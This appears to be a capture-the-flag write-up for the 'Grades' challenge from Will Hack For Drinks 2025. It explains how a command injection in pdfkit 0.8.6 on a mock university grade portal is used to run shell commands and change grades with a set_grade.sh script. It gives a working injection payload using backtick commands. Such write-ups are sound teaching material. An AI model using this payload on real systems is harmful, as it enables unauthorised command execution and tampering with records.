 ```yaml
---
title: 'WHFD 2025 - grades'
shortTitle: 'grades'
date: 2025-04-11
length: 10 min
author: Colorman
headline: Read a solution to grades in Will Hack For Drinks 2025
---
```


> **3 - Grades**
>
> _Suggested difficulty: normal_
>
> The semester has come to a brutal end, and the results are in. You log in to
> the Intrusion Technics University (ITU) study management platform, My Study
> Activities to check your exam results. ITU is known for its unforgivingly high
> exam standards, and it seems your modest performance didn't make the cut.
>
> The means disappointed looks from friends and family, your future plans
> practically in shambles, and worst of all: the dreaded re-exam. But you're not
> ready to give up just yet! Setbacks are just opportunities in disguise, right?
> Somewhere in the depths of the university’s labyrinthine digital
> infrastructure, there has to be a way forward. You just need to find it.
>
> <https://grades.chall.itunderground.dk/static/index.html>

---

On the challenge we are greeted by a university grade platform. Going into
"examination results" we see a message indicating that we need to get a much
higher grade point average.

![examination result](/media/writeups/whfd25/grades/examination_results.png)

From the message we can assume that we are somehow meant to increase our GPA to
acceptable levels.

Exploring the site further, we find a page where you can print a PDF of your
examination results:

![printsite](/media/writeups/whfd25/grades/print1.png)

Most of the options in the dropdown don't work, but the one titled "BestÃ¥ede
resultater for igangvÃ¦rende uddannelser".

In addition to this, there's a text field for user input.

Clicking the CREATE PDF button generates a PDF file in the browser, with the
user input in the PDF. Interestingly, in the bottom of the PDF we see the text
"Created with love by pdfkit 0.8.6".

Googling "pdfkit 0.8.6 vulnerabilities" shows that this specific version of
pdfkit is vulnerable to command injection. In particular is a
[Snyk article](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) that
shows that using the string

```
%20`sleep 5`
```

causes the `sleep 5` command to get injected and ran by the program. And sure
enough, entering the above into the text field and clicking the button causes it
site to hang for 5 seconds!

We can push this further: the output of the command is visible in the PDF, so
using a command like `ls` we can see 2 files in the current directory:
`grades.csv` and `set_grade.sh`. Very suspicious. We can see using
`cat grades.csv` that it's a `csv` file that contains two columns, subject IDs
and grades:

```csv
subject,grade
BSHAXXX1KE,10
BSCTFWN1KE,7
BS4N5EC1KE,10
BSDBSQL1KE,10
BSR3V3R1KE,10
BSM4LW4R1KE,10
BS42PWN1KE,12
```

The `set_grade.sh` script seems useful. `cat`ing it we see that it takes a
subject ID and a grade, and seemingly modifies the CSV file somehow?

```sh
#!/bin/sh
# Function to print help information
usage() {
	echo "Sets the grade for a course"
	echo "ONLY FOR USE BY PROFESSORS"
	echo "Usage: $0 <ID> <NUMBER>"
	echo " <ID>: A course identifier"
	echo " <GRADE>: A grade"
	exit 1
}
# Check if exactly two arguments are provided
if [ "$#" -ne 2 ]; then
	usage
fi
ID="$1"
GRADE="$2"
grades_file="grades.csv"
found=0
awk -F, -v lookup="$ID" -v newval="$GRADE" -v found_ref="$found" 'BEGIN {OFS=","}
 $1 == lookup { $2 = newval; found_ref=1 }
 { print }
		END { if (found_ref == 0) exit 1 }' "$grades_file" >temp.csv
if [ $? -eq 1 ]; then
	echo "Error: Course '$ID' not found in '$grades_file'." >&2
	rm temp.csv
	exit 1
fi

echo "Grade for course '$ID' set to '$GRADE'."
mv temp.csv "$grades_file"
```

Let's try setting the grade of the first subject to 12, the highest grade in the
Danish education system:

```
> ./set_grade.sh BSHAXXX1KE 12
```

Once we've done this, we can already see the result in the PDF file! The subject
grade has been updated to 12!

![grade got upgraded](/media/writeups/whfd25/grades/resultup.png)

Let's do this to all the grades. After doing it, we go back to the results page
and we got the flag!

![flag](/media/writeups/whfd25/grades/flag.png)

